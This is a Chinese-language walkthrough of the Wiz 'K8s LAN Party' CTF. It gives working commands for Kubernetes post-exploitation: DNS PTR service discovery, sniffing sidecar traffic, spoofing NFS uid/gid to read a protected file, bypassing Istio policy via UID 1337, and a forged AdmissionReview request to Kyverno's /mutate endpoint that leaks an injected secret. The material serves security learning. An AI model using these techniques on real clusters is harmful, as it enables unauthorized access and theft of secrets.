

---

tags: Cloud Native Security News, k8s, istio, kyverno
version: v0.1.0

---

# 云原生安全资讯:  WIZ CTF | K8S LAN PARTY  Walkthrough

比赛地址：[K8s LAN Party](https://www.k8slanparty.com)

## 0x00 前言

K8S LAN Party CTF由知名云安全公司wiz举办，以k8s网络为切入点，包含了对k8s后渗透的信息收集、权限提升、横向移动、Istio sidecar 利用姿势、Istio服务网格授权策略绕过、环境变量敏感信息泄漏在kyverno场景下的利用

## 0x01 RECON

> 📝 DNSing with the stars
> You have compromised a Kubernetes pod, and your next objective is to compromise other internal services further.
> 
> As a warmup, utilize [DNS scanning](https://thegreycorner.com/2023/12/13/kubernetes-internal-service-discovery.html#kubernetes-dns-to-the-partial-rescue) to uncover hidden internal services and obtain the flag. We have preloaded your machine with [dnscan](https://gist.github.com/nirohfeld/c596898673ead369cb8992d97a1c764e) to ease this process for further challenges.
> 
> All the flags in the challenge follow the same format: wiz_k8s_lan_party{*}


这个题目环境不存在域传递漏洞也不存在CoreDNS Wildcards利用，这里是利用 k8s 的 ip 域名PTR（DNS 指针记录，提供与 IP 地址关联的域名）反解特性来获取服务的服务名，具体可以看 [https://thegreycorner.com/2023/12/13/kubernetes-internal-service-discovery.html#kubernetes-dns-to-the-partial-rescue](https://thegreycorner.com/2023/12/13/kubernetes-internal-service-discovery.html#kubernetes-dns-to-the-partial-rescue)

简单来说就是通过ip获取service名

```bash
dig +short -x ip地址
```

这个 ip地址 就是要爆破的范围了

svc 的ip地址一般在apiserver所在的b段，查看 apiserver ip

```bash
player@wiz-k8s-lan-party:~$ env
KUBERNETES_SERVICE_PORT_HTTPS=443
KUBERNETES_SERVICE_PORT=443
....
KUBERNETES_PORT_443_TCP=tcp://10.100.0.1:443
....
KUBERNETES_PORT_443_TCP_ADDR=10.100.0.1
KUBERNETES_SERVICE_HOST=10.100.0.1
KUBERNETES_PORT=tcp://10.100.0.1:443
KUBERNETES_PORT_443_TCP_PORT=443
HISTFILESIZE=2048
```

扫b段即可，题目内置了一个 dnscan 工具 [https://gist.github.com/nirohfeld/c596898673ead369cb8992d97a1c764e](https://gist.github.com/nirohfeld/c596898673ead369cb8992d97a1c764e)

```bash
player@wiz-k8s-lan-party:~$ dnscan -subnet 10.100.0.1/16
```



发现一个服务，访问即可拿到 flag

```bash
curl getflag-service.k8s-lan-party.svc.cluster.local.
```

Esonhugh 师傅写了个挺好用的工具：[https://github.com/Esonhugh/k8spider](https://github.com/Esonhugh/k8spider) 除了service的ip域名反解，同时集成了SRV端口信息收集和域传递漏洞功能，目前我也把 CoreDNS Wildcards 特性也PR上去了

## 0x02 FINDING NEIGHBOURS

> 📝 Hello?
>
> Sometimes, it seems we are the only ones around, but we should always be on guard against invisible [sidecars](https://kubernetes.io/docs/concepts/workloads/pods/sidecar-containers/) reporting sensitive secrets.

扫一下service网段

```bash
player@wiz-k8s-lan-party:~$ dnscan -subnet 10.100.0.1/16
43736 / 65536 [------------------------------------------------------------------------------------>_________________________________________] 66.74% 981 p/s10.100.171.123 reporting-service.k8s-lan-party.svc.cluster.local.
```

请求了一下，但是没啥，但是咧，题目描述说有 sidecar 的话，我们当前容器的Pod肯定还有一个容器，通过网络流量发包，这会我们直接抓包看看他发了啥（一般网络命名空间都是共享的，所以能抓包，网卡用的是同一个）

```bash
tcpdump -X
```


果然有一个服务在发送请求，flag在请求体里

## 0x03 DATA LEAKAGE

> 📝 Exposed File Share
> 
> The targeted big corp utilizes outdated, yet cloud-supported technology for data storage in production. But oh my, this technology was introduced in an era when access control was only network-based 🤦‍️.

意思是网络文件共享，先看看 mount

```bash
fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com:/ on /efs type nfs4 (ro,relatime,vers=4.1,rsize=1048576,wsize=1048576,namlen=255,hard,noresvport,proto=tcp,timeo=600,retrans=2,sec=sys,clientaddr=192.168.23.121,local_lock=none,addr=192.168.124.98)
```

有个 flag，但没权限

```bash
player@wiz-k8s-lan-party:/efs$ ls -alh

total 8.0K
drwxr-xr-x 2 root   root   6.0K Mar 11 11:43 .
drwxr-xr-x 1 player player   51 Mar 15 07:24 ..
---------- 1 daemon daemon   73 Mar 11 13:52 flag.txt
```

直接查看会失败，查了下 nfs-ls 的代码在 [https://github.com/sahlberg/libnfs](https://github.com/sahlberg/libnfs) 默认使用 NFSv3

```bash
nfs-ls nfs://fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com/

Failed to mount nfs share : mount_cb: nfs_service failed
```

而根据 `mount` 信息使用的是 nfsv4

```bash
player@wiz-k8s-lan-party:~$ nfs-ls nfs://fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com/?version=4

----------  1     1     1           73 flag.txt
```

即可看到 flag.txt，此时直接获取会提示权限不足

```bash
player@wiz-k8s-lan-party:~$ nfs-cat nfs://fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com//flag.txt?version=4

Failed to open file /flag.txt: open call failed with "NFS4: (path /) failed with NFS4ERR_ACCESS(-13)"
Failed to open nfs://fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com//flag.txt?version=4
```

但 nfs 可能存在配置问题（比如配置了 `no_root_squash` 客户端以 root 访问会映射为 nfs服务端本地的root用户），允许客户端伪造 uid 和 gid。根据 `libnfs` 文档，对应的参数为

```bash
player@wiz-k8s-lan-party:~$ nfs-cat "nfs://fs-0779524599b7d5e7e.efs.us-west-1.amazonaws.com//flag.txt?version=4&uid=0&gid=0"
```

即可拿到 flag

实际业务场景下，很多时候不得不使用 `no_root_squash` 然后采用一些其他方式限制正常用户访问，还是希望 NFS 后续能推出更好的颗粒度更小的权限划分功能

## 0x04 BYPASSING BOUNDARIES

> 📝 The Beauty and The Ist
> 
> Apparently, new service mesh technologies hold unique appeal for ultra-elite users (root users). Don't abuse this power; use it responsibly and with caution.

本题限制 policy

```yaml
apiVersion: security.istio.io/v1beta1
kind: AuthorizationPolicy
metadata:
  name: istio-get-flag
  namespace: k8s-lan-party
spec:
  action: DENY
  selector:
    matchLabels:
      app: "{flag-pod-name}"
  rules:
  - from:
    - source:
        namespaces: ["k8s-lan-party"]
    to:
    - operation:
        methods: ["POST", "GET"]
```

收集一下 Istio svc 

```bash
dnscan -subnet 10.100.0.1/16
```


为：`istio-protected-pod-service.k8s-lan-party.svc.cluster.local.`

直接请求

```bash
curl istio-protected-pod-service.k8s-lan-party.svc.cluster.local.

RBAC: access denied
```

会被policy授权策略禁止访问

NCC Group 2020年对Istio做过一次安全评估：（报告里搜索 `Istio Client-Side Bypasses`）

[https://istio.io/v1.11/blog/2021/ncc-security-assessment/NCC_Group_Google_GOIST2005_Report_2020-08-06_v1.1.pdf](https://istio.io/v1.11/blog/2021/ncc-security-assessment/NCC_Group_Google_GOIST2005_Report_2020-08-06_v1.1.pdf) 

提到Istio客户端存在一些bypass方法

- UDP协议，因为 Istio 不处理 UDP 数据包
- 1337 用户 UID，Istio的sidecar创建基于UID的iptables规则。如果Pod中的主容器以UID 1337运行就能绕过使用Envoy代理sidecar的iptables规则，规则详情见 [https://github.com/istio/istio/wiki/Understanding-IPTables-snapshot#use-pid-to-get-iptables](https://github.com/istio/istio/wiki/Understanding-IPTables-snapshot#use-pid-to-get-iptables)
- `CAP_SETUID` 容器权限，当容器具有CAP_SETUID（一个默认权限）时，任何具有该权限的进程都可以将其UID更改为1337，从而实现上述绕过
- 当容器被授予`CAP_NET_ADMIN`权限时，它可以重写自己的iptables规则并绕过Envoy代理
- 入站端口绕过，和这题没什么关系

根据题目介绍，以及我们用的 shell，这次给的用户是 root

```bash
root@wiz-k8s-lan-party:~# id

uid=0(root) gid=0(root) groups=0(root)
```

Pod 内的主容器和sidecar容器共享用户命名空间

```bash
root@wiz-k8s-lan-party:~# cat /etc/passwd | grep 1337

istio:x:1337:1337::/home/istio:/bin/sh
```

因此可以利用 1337 用户 UID 绕过 Istio 的出站规则

```bash
root@wiz-k8s-lan-party:~# su istio

$ curl istio-protected-pod-service.k8s-lan-party.svc.cluster.local.
```

即可拿到 flag

## 0x05 LATERAL MOVEMENT

> 📝 Who will guard the guardians?
> 
> Where pods are being mutated by a foreign regime, one could abuse its bureaucracy and leak sensitive information from the [administrative](https://kubernetes.io/docs/reference/access-authn-authz/extensible-admission-controllers/#request) services.

本题policy

```yaml
apiVersion: kyverno.io/v1
kind: Policy
metadata:
  name: apply-flag-to-env
  namespace: sensitive-ns
spec:
  rules:
    - name: inject-env-vars
      match:
        resources:
          kinds:
            - Pod
      mutate:
        patchStrategicMerge:
          spec:
            containers:
              - name: "*"
                env:
                  - name: FLAG
                    value: "{flag}"
```

在 sensitive-ns 命名空间创建 Pod 容器会触发动态准入控制回调到kyverno API（这里是注册到K8S **Mutating Webhook**）然后修改资源对象，把 FLAG 环境变量注入到新的资源对象中，也就是我们最终要拿到的 flag，但当前的Pod没有权限创建Pod，换个角度，我们在K8S集群内部，可以尝试能否直接请求 kyverno 暴露的API接口来调用该回调接口

先收集一下 svc 

```bash
dnscan -subnet 10.100.0.1/16
```


```bash
10.100.86.210 -> kyverno-cleanup-controller.kyverno.svc.cluster.local.
10.100.126.98 -> kyverno-svc-metrics.kyverno.svc.cluster.local.
10.100.158.213 -> kyverno-reports-controller-metrics.kyverno.svc.cluster.local.
10.100.171.174 -> kyverno-background-controller-metrics.kyverno.svc.cluster.local.
10.100.217.223 -> kyverno-cleanup-controller-metrics.kyverno.svc.cluster.local.
10.100.232.19 -> kyverno-svc.kyverno.svc.cluster.local.
```

看到metric，搜了一下端口为8000

```bash
curl kyverno-svc-metrics.kyverno.svc.cluster.local.:8000
curl kyverno-reports-controller-metrics.kyverno.svc.cluster.local.:8000
curl kyverno-cleanup-controller-metrics.kyverno.svc.cluster.local.:8000
```

请求可以看到一些请求路由，搜一下，路由写在 kyverno/pkg/config/config.go 里

```go
const (
....
	// PolicyMutatingWebhookServicePath is the path for policy mutation webhook(used to default)
	PolicyMutatingWebhookServicePath = "/policymutate"
	// MutatingWebhookServicePath is the path for mutation webhook
	MutatingWebhookServicePath = "/mutate"
....
)
```

有两个接口比较引人注目，可以触发 **Mutating Webhook**，不过第1个按字面意思应该是更改policy的，这里选用第2个，该路由对应的服务为 kyverno-svc.kyverno.svc.cluster.local. ，监听443端口

接下来就是构造请求参数了，题目描述k8s文档里有一个例子

```yaml
apiVersion: admission.k8s.io/v1
kind: AdmissionReview
request:
  # 唯一标识此准入回调的随机 uid
  uid: 705ab4f5-6393-11e8-b7cc-42010a800002
....
```

不过他不是创建Pod的，可以自己写一个在sensitive-ns命名空间创建Pod的yaml，

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: example-pod
  namespace: sensitive-ns
spec:
  containers:
    - name: example-container
      image: nginx
```

扔给 GPT 让他结合上面官方给的例子帮忙转下即可（其中有不少字段是可以扔掉的，不过像 requestKind、requestResource等一些字段是不能扔掉的，完整入参见 `k8s.io/api/admission/v1/types.go:AdmissionRequest`）

```bash
curl -k -X POST https://kyverno-svc.kyverno.svc.cluster.local./mutate -H "Content-Type: application/json" --data '{"apiVersion":"admission.k8s.io/v1","kind":"AdmissionReview","request":{"uid":"705ab4f5-6393-11e8-b7cc-42010a800002","kind":{"group":"","version":"v1","kind":"Pod"},"resource":{"group":"","version":"v1","resource":"pods"},"requestKind":{"group":"","version":"v1","kind":"Pod"},"requestResource":{"group":"","version":"v1","resource":"pods"},"name":"example-pod","namespace":"sensitive-ns","operation":"CREATE","userInfo":{"username":"admin","uid":"014fbff9a07c","groups":["system:authenticated"]},"object":{"apiVersion":"v1","kind":"Pod","metadata":{"name":"example-pod","namespace":"sensitive-ns"},"spec":{"containers":[{"name":"example-container","image":"nginx","env":[{"name":"FLAG","value":"{flag}"}]}]}},"oldObject":null,"options":{"apiVersion":"meta.k8s.io/v1","kind":"CreateOptions"},"dryRun":true}}'
```


把 patch 部分 base64 解码就可以得到 flag 了

> 题目提示1：[https://github.com/anderseknert/kube-review](https://github.com/anderseknert/kube-review) 这个工具可以将创建Pod的yaml文件直接转AdmissionReview请求json参数，就不用GPT了，也不用对着`AdmissionRequest` 入参一个个敲
> 

这种利用手段主要是在实际利用中获取敏感信息，并不是所有开发都会把敏感信息放 secret 里的（亲身体验